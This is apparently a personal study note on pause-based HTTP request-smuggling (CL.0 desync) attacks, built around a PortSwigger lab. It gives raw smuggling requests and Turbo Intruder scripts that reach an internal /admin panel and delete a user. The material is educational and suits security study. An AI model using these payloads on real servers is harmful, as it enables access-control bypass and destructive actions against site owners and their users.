

# Pause-based desync attacks

Pause-based desync vulnerabilities can occur when a server times out a request but leaves the connection open for reuse. Given the right conditions, this behavior can provide an alternative vector for **both server-side and client-side desync attacks**.

## Server-side pause-based desync

You can potentially use the pause-based technique to elicit [CL.0](CL.0%20smuggling%20vulnerabilities.md)-like behavior, allowing you to construct server-side request smuggling exploits for websites that may initially appear secure.

Conditions:
- front-end server must immediately forward each byte of the request to the back-end rather than waiting until it has received the full request.
- front-end server must not (or can be encouraged not to) time out requests before the back-end server
- back-end server must leave the connection open for reuse following a read timeout

*CL.0 request*
```http
POST /example HTTP/1.1
Host: vulnerable-website.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```

Desync steps:
1. The front-end forwards the headers to the back-end, then continues to wait for the remaining bytes promised by the `Content-Length` header.
2. After a while, the back-end times out and sends a response, even though it has only consumed part of the request. At this point, the front-end may or may not read in this response and forward it to us.
3. We finally send the body, which contains a basic request smuggling prefix in this case.
4. The front-end server treats this as a continuation of the initial request and forwards this to the back-end down the same connection.
5. The back-end server has already responded to the initial request, so assumes that these bytes are the start of another request.

### Testing for pause-based CL.0 vulnerabilities

>[!important]
>It's possible to test for pause-based CL.0 vulnerabilities using Burp Repeater, but only if the front-end server forwards the back-end's post-timeout response to you the moment it's generated, which isn't always the case. We recommend using the [Turbo Intruder](https://portswigger.net/bappstore/9abaa233088242e8be252cd4ff534988) extension as it lets you pause mid-request then resume regardless of whether you've received a response.

1. Create a CL.0 request smuggling probe and send it to [Turbo Intruder](../Tools/Burpsuite.md#Turbo%20Intruder)
2. In Turbo Intruder's python editor, adjust the request engine configuration with the following options:
```python
concurrentConnections=1
requestsPerConnection=100
pipeline=False
```
3. Queue the request, adding the following arguments to `queue()`:
	- `pauseMarker` - A list of strings after which you want Turbo Intruder to pause.
	- `pauseTime` - The duration of the pause in milliseconds.
```python
engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=60000)
```
4. Queue an arbitrary follow-up request:
```python
followUp = 'GET / HTTP/1.1\r\nHost: vulnerable-website.com\r\n\r\n'
engine.queue(followUp)
```
5. Ensure you are logging all responses to the results table:
```python
def handleResponse(req, interesting):
    table.add(req)
```

When you first start the attack, you won't see any results in the table. However, after the specified pause duration, you should see two results. If the response to the second request matches what you expected from the smuggled prefix, this strongly suggests that the desync was successful.

>[!note]
>Instead of using `pauseMarker` to specify a pause based on string matching, you can use the `pauseBefore` argument to specify an offset. For example, you could pause before the body by specifying an offset that's the inverse of the `Content-Length` (`pauseBefore=-34`).

### Pause-based CL.0 + Broken Access Controll

Request:
```http
POST /resources HTTP/2
Host: 0aa800b00334602580c7089d00af0065.web-security-academy.net
Cookie: session=JA4fma1pgmjHNfyR6LeZIH4uVgAq5l8m
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 85

GET /admin/ HTTP/1.1
Host: localhost
```

Turbo-intruder script:
```py
# Find more example scripts at https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=61000)
    engine.queue(target.req)


def handleResponse(req, interesting):
    table.add(req)
```

Result:


```html
...
<form style='margin-top: 1em' class='login-form' action='/admin/delete' method='POST'>
	<input required type="hidden" name="csrf" value="mfanMrypvbYexeepiit77XVCnLaCAG10">
	<label>Username</label>
	<input required type='text' name='username'>
	<button class='button' type='submit'>Delete user</button>
</form>
...
```

Final payload:
```py
'''
POST /resources HTTP/2
Host: 0aa800b00334602580c7089d00af0065.web-security-academy.net
Cookie: session=JA4fma1pgmjHNfyR6LeZIH4uVgAq5l8m
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 159

POST /admin/delete/ HTTP/1.1
Host: localhost
Content-Type: x-www-form-urlencoded
Content-Length: 53

csrf=pUfTPDpksJMJDaheqdsvnBKBWrR43V1Y&username=carlos
'''

# Find more example scripts at https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    engine.queue(target.req, pauseMarker=['Content-Length: 159\r\n\r\n'], pauseTime=61000)
    engine.queue(target.req)


def handleResponse(req, interesting):
    table.add(req)

```

## Client-side pause-based desync

In theory, it may be possible to perform a client-side variation of the pause-based CL.0 desync. Unfortunately, we haven't yet found a reliable way to make a browser pause mid-request. However, there is one possible workaround - an active MITM attack.
